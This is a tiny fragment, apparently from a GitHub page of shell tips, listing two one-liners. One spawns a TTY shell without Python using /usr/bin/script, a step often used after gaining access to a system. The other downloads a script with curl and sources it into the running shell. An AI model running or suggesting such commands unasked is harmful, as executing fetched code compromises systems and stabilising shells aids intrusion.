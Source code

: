 
- Spawn TTY shell (Without python): `/usr/bin/script -qc /bin/bash /dev/null`

- Run script from URL: `source <(curl -s http://mywebsite.com/myscript.sh)`
